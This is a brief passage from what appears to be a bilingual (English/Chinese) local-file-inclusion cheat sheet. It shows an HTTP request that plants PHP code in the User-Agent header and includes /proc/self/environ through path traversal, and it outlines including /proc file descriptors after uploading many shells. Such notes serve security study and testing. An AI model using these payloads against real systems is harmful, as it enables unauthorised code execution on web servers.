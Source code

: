 

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```



### 包含fd

跟包含environ类似。

参考： [LFI Cheat Sheet：/proc/self/environ LFI Method](https://highon.coffee/blog/lfi-cheat-sheet/#procselffd-lfi-method)



1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)



### 包含临时文件

[![img](assets/804631-20151116135028890-525890377.jpg)](http://images2015.cnblogs.com/blog/804631/201511/804631-20151116135028890-525890377.jpg)
